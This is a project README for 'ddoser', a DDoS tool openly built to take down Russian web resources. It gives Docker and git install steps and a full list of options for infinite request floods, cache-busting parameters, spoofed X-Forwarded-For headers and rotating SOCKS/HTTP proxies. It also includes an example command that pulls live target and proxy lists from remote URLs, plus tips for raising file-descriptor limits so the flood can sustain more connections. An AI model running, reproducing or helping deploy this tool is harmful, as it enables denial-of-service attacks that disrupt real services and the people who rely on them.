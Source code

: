 # The you seddoser
Small application for ddos attack, was developed special for kill russian's resources :)
# Contacts
If you have a questions or any proposal/bug thern pls contact us [ddoser telegram group](https://t.me/+eodJuvlTiK9hYWYy)
## Docker run (easy way)
Install docker https://docs.docker.com/engine/install/
```shell
# with default urls and proxies
docker run --pull always --ulimit nofile=100000:100000 -it imsamurai/ddoser
# with custom params
docker run --pull always --ulimit nofile=100000:100000 -it imsamurai/ddoser --target-urls-file sime.txt ... (check usage section)
# help
docker run --pull always --ulimit nofile=100000:100000 -it imsamurai/ddoser --help
```
Each run will update ddoser inside.
## Install
### Linux
```shell
sudo apt install python3
sudo apt install python3-pip
git clone https://github.com/taransergey/ddoser.git
cd ddoser/
pip install -r requirements.txt
```
### MacOs
Download and install python3.7-3.9 form here https://www.python.org/downloads/macos/ if you don't have it
or install by brew
```shell
brew install python@3.9
brew link python@3.9
```
### Common for any system
```shell
git clone https://github.com/taransergey/ddoser.git
cd ddoser/
pip install -r requirements.txt
```
## Run
```shell
Usage: ddoser.py [OPTIONS]

  Run ddoser

Options:
   --target-url TEXT         ddos target url
  --target-urls-file TEXT   path or url to file contains urls to ddos
  --proxy-url TEXT          url to proxy resourse
  --proxy-file TEXT         path to file with proxy list
  --concurrency INTEGER     concurrency level
  --count INTEGER           requests count (0 for infinite)
  --timeout INTEGER         requests timeout
  -v, --verbose             Show verbose log
  --ignore-response         do not wait for response body
  --with-random-get-param   add random get argument to prevent cache usage
  --user-agent TEXT         custom user agent
  --log-to-stdout           log to console
  --restart-period INTEGER  period in seconds to restart application (reload proxies ans targets)
  --random-xff-ip           set random ip address value for X-Forwarder-For header
  --custom-headers TEXT     set custom headers as json
  --stop-attack INTEGER     stop the attack when the target is down after N tries
  --shuffle-proxy           Shuffle proxy list on application start
  --help                    Show this message and exit.
```
proxy-file or proxy-url should contain proxy list in format like:
```text
ip1:port1#sock5
ip2:port2#sock4
ip3:port3#sock4 login:password
ip4:port4#http login:password
ip5:port5#http login:password
ip6:port6#https login:password
...
ipN:portN#sock4
```
### Example cmd
```shell
python3 ./ddoser.py --concurrency 150 --timeout 60 --with-random-get-param --user-agent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36" --count 0 --log-to-stdout --target-urls-file https://raw.githubusercontent.com/maxindahouze/reactor/main/targets3.txt --proxy-url 'http://143.244.166.15/proxy.list' --restart-period 600 --random-xff-ip
```
## Notes
**ddoser** supports SOCKS4/5 and HTTP(s) proxies with or without authorization, also can start it directly without proxy

Use **--restart-period** parameter to periodically reloading targets and proxies list   

If you see an error `too many open files` then you can decrease concurrency/targets count but first of all
try to increase the limits:
### Linux/MacOS:
```shell
ulimit -n 100000
```
### WSL:
```shell
mylimit=100000
sudo prlimit --nofile=$mylimit --pid $$; ulimit -n $mylimit
```
